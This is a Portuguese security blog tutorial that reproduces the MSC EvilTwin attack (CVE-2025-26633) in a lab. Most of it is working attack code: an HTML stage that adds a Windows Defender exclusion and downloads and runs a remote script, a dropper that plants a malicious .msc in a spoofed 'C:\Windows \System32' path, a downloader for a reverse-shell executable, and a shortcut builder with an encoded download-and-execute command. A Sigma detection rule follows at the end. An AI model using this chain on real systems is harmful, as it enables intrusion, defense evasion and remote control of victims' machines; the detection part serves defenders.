

O presente artigo tem finalidade exclusivamente educacional.<br>As técnicas, ferramentas e conceitos aqui apresentados têm o objetivo de promover o conhecimento, fortalecer a segurança da informação e educar profissionais e entusiastas da área.<br>Não incentivo nem apoio qualquer atividade ilegal.<br>O uso indevido das informações aqui descritas é de inteira responsabilidade do leitor.<br>Recomenda-se que todos os testes sejam realizados em ambientes controlados e com a devida autorização.


# TL;DR

A <kbd>CVE-2025-26633</kbd> é uma falha no Microsoft Management Console (MMC) que permite execução de código remoto com engenharia social. O ataque abusa de um `.msc` malicioso com conteúdo HTML via ActiveX embutido, explorando a renderização do Internet Explorer interno do Windows.

**Fluxo do Ataque:**
- Criação de página HTML maliciosa (`index.html`) com comando PowerShell.
- Criação de `.msc` malicioso apontando para essa página.
- Obfuscação com Base64 e criação de dropper `.ps1`.
- Criação de atalho `.lnk` para execução do `.msc`.
- Usuário clica no `.lnk` → MMC carrega `.msc` → HTML carrega → PowerShell executa → Shell reverso ativo.

**Impacto:**
- xecução remota de código
- Evasão de defesas usando LOLBins (mmc.exe)
- Possível persistência e exfiltração de dados

**Requer:**
- Interação do usuário
- MMC instalado (spoiler: está em todo Windows desde a pré-história)

**Detectar:**
- Monitorar chamadas suspeitas do mmc.exe carregando .msc
- Execução de PowerShell a partir de instâncias MMC
- Uso incomum de ActiveX no contexto de gerenciamento local

> É como se alguém pegasse o MMC, vestisse ele com um casaco de HTML venenoso, e dissesse: "Confia!" E o Windows... confiou.

# 1. Introdução

O presente artigo, tem como finalidade, simular a execução, exploração e detecção da <kbd>CVE-2025-26633</kbd> seguindo o que foi documentado na análise apresentada pela **Trend Micro**. Para entender maiores detalhes sobre essa CVE, leia a análise completa e detalhada no link que está na seção **Referências**, aqui, focaremos apenas em montar um ambiente de testes e simular essa exploração.

Por questões práticas, meu C2 será sempre o mesmo endereço de IP, não terá evasão de defesas ou escalação de privilégios, tanto que o Windows Defender e Elastic Security identificaram fácil meu payload de shell reverso, meu foco principal é o entendimento do comportamento, lembrando que em cenário real ou operações de Red Team a criatividade e distribuição da arquitetura vai depender de cada agente.

Os arquivos aqui construídos estão disponíveis no meu GitHub. O link está na seção de **Referências**.

# 2. Um breve resumo sobre a vulnerabilidade

A vulnerabilidade <kbd>CVE-2025-26633</kbd> identificada pela Trend Micro, abusa do recurso Microsoft Management Console (MMC) do Windows usando uma técnica que eles apelidaram de **MSC EvilTwin**.

A exploração dessa vulnerabilidade requer interação do usuário e que ele execute um arquivo `.msc` especialmente criado para essa exploração. Neste ataque, o agente de ameaça manipula arquivos `.msc` e o _Multilingual User Interface Path (MUIPath)_ para baixar e executar carga maliciosa, manter a persistência e roubar dados confidenciais de sistemas infectados. Esse método permite que os invasores ignorem as medidas de segurança tradicionais e ganhem acesso ao ambiente.

No centro da exploração está uma técnica, criar dois arquivos `.msc` com o mesmo nome. Um deles é um arquivo limpo e inofensivo e o outro que é o malicioso, em um diretório específico do idioma como `en-US`. Quando a versão limpa é executada, o `mmc.exe` carrega o arquivo malicioso em vez do arquivo original e o executa, explicam os pesquisadores.

# 3. Fluxo da cadeia de execução

Abaixo eu desenhei como ficará o fluxo da nossa Prova de Conceito.


<figure style="text-align: center;">
  <figcaption><i><strong>Figura 1.</strong> Fluxo de ataque da simulação da CVE-2025-26633.</i></figcaption>
</figure>

# 4. Weaponization

## 4.1. Preparando a página `index.html`

Primeiro! Vamos começar pela página html, pois aqui preciso explicar algumas coisinhas... A página web que criaremos, servirá apenas para hospedar o estágio 2 do ataque. Crie um arquivo `index.html` e copie o código abaixo:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Game Over</title>
</head>
<body>
<h1>CVE-2025-26633</h1>
    <script>
    external.ExecuteShellCommand("powershell.exe", "", "-ExecutionPolicy Bypass -WindowStyle Hidden -Command & {Add-MpPreference -ExclusionPath $env:TEMP}", "Minimized");
    external.ExecuteShellCommand("powershell.exe", "", "-ExecutionPolicy Bypass -WindowStyle Hidden -Command \"Invoke-RestMethod -Uri 'http://192.168.145.115/stage2/shell.ps1' | Invoke-Expression\"", "Minimized");
    external.ExecuteShellCommand("powershell.exe", "", "-ExecutionPolicy Bypass -WindowStyle Hidden -Command & {taskkill /f /im mmc.exe}", "Minimized");
    // external.ExecuteShellCommand("powershell.exe", "", "-ExecutionPolicy Bypass -WindowStyle Hidden -Command & {Start-Process calc.exe}", "Minimized");
    </script>
</body>    
</html>
```

### 4.1.1. Para que serve o `external.ExecuteShellCommand` nessa página?

O motivo de criarmos a página web assim é que, ao executarmos uma página `.html` deentro de um arquivo `.msc`, ele é capaz de executar comandos no terminal. O `external.ExecuteShellCommand` é um método que é exposto por alguns componentes ActiveX no contexto do Internet Explorer embutido. Em MMCs personalizados, o controle `WebBrowser` pode estar presente, e ele fornece uma interface COM chamada `external`. 

### 4.1.2. Como o `.msc` se encaixa nesse cenário?

Um `.msc` pode ser personalizado para carregar uma página HTML remota ou local. Se essa página HTML estiver com um JavaScript malicioso e o ambiente estiver vulnerável (por exemplo, rodando com permissões elevadas e com configurações antigas do IE/ActiveX), o script pode:

- Acessar o objeto external
- Executar comandos PowerShell diretamente
- Evitar avisos ou prompts, pois o MMC geralmente roda com permissões elevadas (principalmente se for um snap-in administrativo)

Veja a **Figura 2** para ver o exemplo e veja os links 4 e 5 na seção **Referências** para maiores esclarecimentos.

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 2.</strong> mmc.exe com o snap-in do controle ActiveX abre a URL fornecida dentro da StringTable (<strong>Figura 5</strong>) por padrão com alta prioridade.</i></figcaption>
</figure>

## 4.2. Preparando o arquivo `.msc`

Agora vamos preparar o nosso arquivo `.msc`. A Trend mostrou em seu relatório que foi usado o binário `WmiMgmt.msc`[^2] e como tentativa de reprodução fiel ao reportado, vou seguir nesse mesmo caminho.

Antes de tudo, inicie um servidor para o `index.html` que criamos anteriormente, comente as 3 primeiras linhas e deixe somente a linha 4 que inicia a calculadora. Vamos fazer isso apenas para testar a efetividade da configuração do arquivo.

Abra o menu executar e digite `mmc` para abrir o Microsoft Console Management.

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 3.</strong> Página do Microsoft Console Management.</i></figcaption>
</figure>

Vá em `File > Add/Remove Snap-in... > Link to Web Address >`, adicione o link/IP do seu arquivo hospedado, conforme **Figura 3**, no próximo passo coloque `Shockwave Flash Object` (aqui no meu teste eu coloquei outro nome apenas para fins didáticos) e depois `Add > OK`. Clique no Snap-in criado, ao clicar no objeto, a calculadora deverá abrir, isso confirma que o arquivo está funcionando. 

> [!IMPORTANT] Importante!
> Aqui vai uma observação extremamente importante! Salve o arquivo com o objeto que acessa a página web clicada, pois quando você salva o arquivo com o objeto clicado, ele irá iniciar na próxima vez nesse objeto e isso é importante para nosso cenário. Veja abaixo:

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 4.</strong> Configuração do arquivo .msc malicioso.</i></figcaption>
</figure>


Agora edite o arquivo, altere e deixe conforme a **Figura 5** abaixo:

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 5.</strong> Edição e configuração do arquivo malicioso.</i></figcaption>
</figure>

Ok! Nosso arquivo `.msc` malicioso já está pronto. Vamos para o próximo arquivo.

## 4.3. Criando o seu payload de shell reverso

Nesta parte não vou detalhar como você deve fazer seu payload, vai depender do C2 que você vai usar no seu lab, se o metasploit, havoc etc... Aqui no meu lab eu criei o payload .exe diretamente no havoc. Ele tem assinatura e o Windows Defender identifica ele, o Elastic Security instalado no meu lab também identificou ele, como falei na **Introdução**.

## 4.4. Configurando o Base64

Essa parte é um ponto muito importante! Vamos codificar nossos dois arquivos: o arquivo limpo e malicioso do `WmiMgmt.msc`. Use o seguinte script para encodar em base64 o arquivo:

```powershell
$inputFile1 = "C:\Windows\System32\WmiMgmt.msc"
$inputFile2 = "<path_to_maliciou_file>\WmiMgmt.msc"
$base64String1 = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes($inputFile1))
$base64String2 = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes($inputFile2))
$base64String1 | Set-Content "C:\Users\Public\WmiMgmt.txt"
$base64String2 | Set-Content "C:\Users\Public\WmiMgmt_malicious.txt"

----
## OUTPUT
# Get-Content "C:\Users\Public\WmiMgmt.txt"
# PD94bWwgdmVyc2lv...vbnNvbGVGaWxlPg==
```

## 4.5. Criando o nosso dropper

Agora vamos começar a evoluir nossa estrutura e vamos desenvolver o _dropper_ do nosso shell.

Crie um arquivo chamado `shell.ps1` e copie exatamente o código abaixo:

```powershell
$ErrorActionPreference = 'silentlyContinue'

$htmlLoaderUrl = "http://192.168.145.115/stage2/"
$originalConsole = "g8yfiasn...oansfafs==" # b64 do seu arquivo original.
$hackedConsole = "akjfghjiaksgf...aihb7as6dyb==" # b64 do seu arquivo malicioso.
$fakeFile = "" # Aqui você pode configurar o que quiser... Abrir uma página do Google, pra passar despercebido...

New-Item "\\?\C:\Windows \System32\" -ItemType Directory
New-Item "\\?\C:\Windows \System32\xpto" -ItemType Directory

$decodedBytesOriginal = [System.Convert]::FromBase64String($originalConsole)
$decodedBytesFakes = [System.Convert]::FromBase64String($hackedConsole)

[System.IO.File]::WriteAllBytes("C:\Windows \System32\WmiMgmt.msc", $decodedBytesOriginal)
[System.IO.File]::WriteAllBytes("C:\Windows \System32\en-US\WmiMgmt.msc", $decodedBytesFakes)

(Get-Content -Path '\\?\C:\Windows \System32\en-US\WmiMgmt.msc' -Raw ) -replace '{htmlLoaderUrl}', $htmlLoaderUrl | Set-Content -Path '\\?\C:\Windows \System32\en-US\WmiMgmt.msc'
if ($fakeFile -ne $null -and $fakeFile -ne "") {
    Start-Process $fakeFile
}

Start-Process -FilePath 'C:\Windows \System32\WmiMgmt.msc'
Start-Sleep -Seconds 30

Remove-Item -Path "\\?\C:\Windows \System32" -Recurse -Force
Remove-Item -Path "\\?\C:\Windows \System32\xpto" -Recurse -Force
Remove-Item -Path "\\?\C:\Windows \" -Recurse -Force
Exit
```
Se você percebeu, existe um espaço ("␣") entre `Windows` e `\System32`. É exatamente aqui como vamos conseguir explorar essa CVE e executar essa vulnerabildade. Confesso que não ficou muito claro para mim como, tecnicamente acontece essa exploração desse caminho, mas fiz algumas simulações pra ficar um mais entendível como isso se aplica.

Veja a **Figura 6** e perceba que ao criar uma pasta `Windows` manualmente, o sistema não permite criá-la, porém, ao criar a pasta via terminal foi possível criá-la (**Figura 7**), no entanto, observe o comportamento ao abrir essa pasta na **Figura 7**. Perceba que ele meio que copiou todo o conteúdo da pasta Windows original, entretanto, as pastas originais não são identificadas como caminho padrão e dão um erro, conforme mostra a **Figura 8**.

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 6.</strong> Criação manual da pasta. O Sistema Operacional não permite.</i></figcaption>
</figure>

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 7.</strong> Criação da pasta Windows com espaço via terminal é possível.</i></figcaption>
</figure>

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 8.</strong> Erro de caminho não identificado.</i></figcaption>
</figure>

Como você pôde perceber, quando criamos manualmente via explorer a pasta o sistema não permitiu, mas ao tentar criar via terminal isso foi possível devido a termos "maior controle operacional". O comportamento que observamos aqui está relacionado em como o Windows lida com a resolução de nomes de diretórios. Vamos entender melhor:

### 4.5.1. Espaço no Caminho e Interpretação do Windows

Quando você escreve `C:\Windows \System32`, o Windows pode interpretar esse caminho de maneira inesperada. Isso acontece porque:

- No Windows, os caminhos são normalizados antes de serem processados.
- O espaço pode fazer com que o interpretador de comandos ou a API de sistema tente resolver o caminho de forma diferente.
- Algumas funções podem considerar `C:\Windows \System32` como `C:\Windows\System32`, mas outras podem não reconhecer corretamente o diretório e acabar redirecionando para outro local.

### 4.5.2. Criação de um novo diretório

Como não temos permissão de escrita em `C:\Windows` e quando criamos um diretório `C:\Windows \System32`, o Windows entende que `System32` é uma nova pasta dentro de `C:\Windows `. Isso significa que você pode criar um diretório `C:\Windows `, onde tem permissão de escrita.

### 4.5.3. Como explorar isso para Escalação de Privilégios?

Esse tipo de situação é explorável em um tipo de ataque que se chama **Unquoted Service Path** ou **Unquoted Path**. Essa vulnerabilidade ocorre quando o caminho para um executável de serviço contém espaços e não está devidamente delimitado por aspas, permitindo que um atacante crie executáveis maliciosos em caminhos inesperados. Por exemplo, um caminho de serviço como `C:\Program Files\My Program\Service.exe` sem aspas pode ser interpretado pelo sistema como `C:\Program.exe`, se tal arquivo existir, permitindo a execução não intencional de um programa malicioso. ​Além disso, o uso de espaços em caminhos de arquivos pode causar comportamentos inesperados no Windows. Por exemplo, ao lidar com caminhos que contêm espaços, é necessário escapar ou delimitar corretamente o caminho com aspas para evitar interpretações errôneas pelo sistema. Embora esses exemplos não correspondam exatamente ao cenário que estamos trabalhando aqui, eles demonstram como espaços em caminhos de arquivos podem ser manipulados para explorar vulnerabilidades ou contornar restrições de segurança no Windows.

## 4.6. Criando o nosso `shell.ps1`

Agora vamos criar o arquivo do terceiro estágio do nosso ataque:

```powershell
$exePath = "$env:TEMP\c2.exe"
Invoke-WebRequest -Uri "http://192.168.145.115/stage3/shell.exe" -OutFile $exePath
Start-Process -FilePath $exePath
```
Aqui, basicamente vamos salvar o nosso shell como um outro nome na pasta Temp que já foi inclusa como exceção no Windows Defender.

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 9.</strong> Pasta Temp em exceção no Windows Defender.</i></figcaption>
</figure>


## 4.7. Criando o nosso arquivo de execução inicial, nosso arquivo `.lnk`

Conforme mencionado pela Trend no seu artigo, o arquivo de acesso inicial era um arquivo `.msi`, aqui foquei em escrever um `.lnk`, por que é fácil e tem muitos malwares que fazem esse tipo de método. Vamos criar nosso `.lnk` malicioso:

```powershell
# Cria um objeto COM para manipulação de atalhos .lnk
$Shell = New-Object -ComObject WScript.Shell
# Cria o atalho no Desktop do usuário atual com o nome "Malicious.lnk"
$Shortcut = $Shell.CreateShortcut("$env:USERPROFILE\Desktop\Malicious.lnk")
# Comando que vai fazer o download e execução do script malicioso
$Command = "powershell.exe -ep bypass -command `"iex (New-Object Net.WebClient).DownloadString('http://192.168.145.115/stage1/dropper.ps1')`""
# Codifica o comando em Base64
$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Command))
# Define o powershell.exe como execução junto com os argumentos
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile -EncodedCommand $EncodedCommand"
# Define o diretório de execução e o ícone do atalho e salva
$Shortcut.WorkingDirectory = "$env:USERPROFILE\Desktop"
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,1"
$Shortcut.Save()
```
Pronto! Nossa preparação está concluída! Basta executar o `.lnk` e o acesso shell é iniciado. Você pode incluir no script uma função que inclua o atalho para iniciar junto ao sistema operacional ou uma tarefa agendada, por exemplo.

# 5. MITRE ATT&CK - MSC EvilTwin (CVE-2025-26633)


| Tática               | Técnica ID | Técnica                                                        |
| --------------------: | :----------: | -------------------------------------------------------------- |
| Resource Development | T1587.001  | Develop Capabilities: Malware                                  |
| Resource Development | T1588.002  | Obtain Capabilities: Tool                                      |
| Initial Access       | T1566      | Phishing                                                       |
| Initial Access       | T1566.001  | Phishing: Spearphishing Attachment                             |
| Execution            | T1204.002  | User Execution: Malicious File                                 |
| Execution            | T1059.001  | Command and Scripting Interpreter: PowerShell                  |
| Execution            | T1203      | Exploitation for Client Execution                              |
| Persistence          | T1053      | Scheduled Task/Job                                             |
| Privilege Escalation | T1548.002  | Abuse Elevation Control Mechanism: Bypass User Account Control |
| Defense Evasion      | T1027      | Obfuscated Files or Information                                |
| Defense Evasion      | T1112      | Modify Registry                                                |
| Defense Evasion      | T1218.014  | System Binary Proxy Execution: MMC                             |
| Defense Evasion      | T1562.001  | Impair Defenses: Disable or Modify Tools                       |
| Defense Evasion      | T1036.005  | Masquerading: Match Legitimate Name or Location                |
| Command and Control  | T1102.003  | Web Service: One-Way Communication                             |
| Command and Control  | T1105      | Ingress Tool Transfer                                          |
| Command and Control  | T1071.001  | Application Layer Protocol: Web Protocols                      |
| Exfiltration         | T1041      | Exfiltration Over C2 Channel                                   |
| Impact               | T1565      | Data Manipulation                                              |

# 6. Detecção

Abaixo segue uma regra Sigma que você pode usar para estrutura em seu ambiente:

```yml {title="Sigma Rule"}
title: CVE-2025-26633 - MSC EvilTwin
id: 544635f8-40f9-4728-ad65-7de49ad51a64
status: experimental
description: Detects a Windows command line executable started from MMC with a space between "Windows" and "\System32\"
references:
   - https://www.trendmicro.com/en_us/research/25/c/cve-2025-26633-water-gamayun.html
   - https://detection.fyi/sigmahq/sigma/windows/process_creation/proc_creation_win_mmc_susp_child_process/
   - https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
   - https://sandsoncosta.github.io/blog/cve-2025-26633-como-simular-e-identificar-o-ataque-msc-eviltwin/
author: Sandson Costa
date: 2025-04-03
tags:
   - attack.lateral-movement
   - attack.t1021.003
logsource:
   category: process_creation
   product: windows
detection:
   selection1:
       EventID: 1
       Image|endswith: '\mmc.exe'
       ParentImage|endswith:
           - '\cmd.exe'
           - '\powershell.exe'
           - '\pwsh.exe'
           - '\wscript.exe'
           - '\cscript.exe'
           - '\sh.exe'
           - '\bash.exe'
           - '\reg.exe'
           - '\regsvr32.exe'
       CommandLine|re: 'Windows\s+\\System32'
   selection2:
       EventID: 4688
       ParentProcessName|endswith: '\mmc.exe'
       NewProcessName|endswith:
           - '\cmd.exe'
           - '\powershell.exe'
           - '\pwsh.exe'
           - '\wscript.exe'
           - '\cscript.exe'
           - '\sh.exe'
           - '\bash.exe'
           - '\reg.exe'
           - '\regsvr32.exe'
   condition: selection1 or selection2
fields:
   - CommandLine
   - Image
   - ParentCommandLine
